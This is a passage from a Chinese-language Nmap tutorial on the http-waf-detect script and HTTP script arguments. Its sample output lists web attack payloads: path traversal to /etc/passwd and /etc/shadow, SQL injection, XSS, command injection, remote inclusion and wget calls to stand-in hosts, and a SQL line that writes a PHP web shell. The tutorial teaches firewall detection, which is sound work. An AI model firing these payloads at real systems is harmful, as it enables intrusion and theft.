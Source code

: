 ```

要包含更多的攻击载荷，请使用脚本参数`http-waf-detect.aggro`。这种模式会生成更多的 HTTP 请求，但也可能触发更多的产品：

```
$ nmap -p80 --script http-waf-detect --script-args="http-waf-detect.aggro" <target>
Initiating NSE at 23:03
NSE: http-waf-detect: Requesting URI /abc.php
NSE: Final http cache size (1160 bytes) of max size of 1000000
NSE: Probing with payload:?p4yl04d=../../../../../../../../../../../../../../../../../etc/passwd
NSE: Probing with payload:?p4yl04d2=1%20UNION%20ALL%20SELECT%201,2,3,table_name%20FROM%20information_schema.tables
NSE: Probing with payload:?p4yl04d3=<script>alert(document.cookie)</script>
NSE: Probing with payload:?p4yl04d=cat%20/etc/shadow
NSE: Probing with payload:?p4yl04d=id;uname%20-a
NSE: Probing with payload:?p4yl04d=<?php%20phpinfo();%20?>
NSE: Probing with payload:?p4yl04d='%20OR%20'A'='A
NSE: Probing with payload:?p4yl04d=http://google.com
NSE: Probing with payload:?p4yl04d=http://evilsite.com/evilfile.php
NSE: Probing with payload:?p4yl04d=cat%20/etc/passwd
NSE: Probing with payload:?p4yl04d=ping%20google.com
NSE: Probing with payload:?p4yl04d=hostname%00
NSE: Probing with payload:?p4yl04d=<img%20src='x'%20onerror=alert(document.cookie)%20/>
NSE: Probing with payload:?p4yl04d=wget%20http://ev1l.com/xpl01t.txt
NSE: Probing with payload:?p4yl04d=UNION%20SELECT%20'<?%20system($_GET['command']);%20?>',2,3%20INTO%20OUTFILE%20'/var/www/w3bsh3ll.php'--

```

要为探测设置不同的 URI，请设置参数`http-waf-detect.uri`：

```
$ nmap -p80 --script http-waf-detect --script-args http-waf-detect.uri=/webapp/ <target>

```

### HTTP 用户代理

有一些数据包过滤产品会阻止使用 Nmap 的默认 HTTP 用户代理发出的请求。您可以通过设置参数`http.useragent`来使用不同的用户代理值：

```
$ nmap -p80 --script http-waf-detect --script-args http.useragent="Mozilla 42" <target>

```

### HTTP 管线化

一些 Web 服务器允许将多个 HTTP 请求封装在单个数据包中。这可能加快 NSE HTTP 脚本的执行速度，建议在 Web 服务器支持的情况下使用。HTTP 库默认尝试管线化 40 个请求，并根据`Keep-Alive`头部根据流量条件自动调整该数字。

```
$ nmap -p80 --script http-methods --script-args http.pipeline=25 <target>

```

此外，您可以使用参数`http.max-pipeline`来设置要添加到管线中的 HTTP 请求的最大数量。如果设置了脚本参数`http.pipeline`，则将忽略此参数：

```
$.nmap -p80 --script http-methods --script-args http.max-pipeline=10 <target>
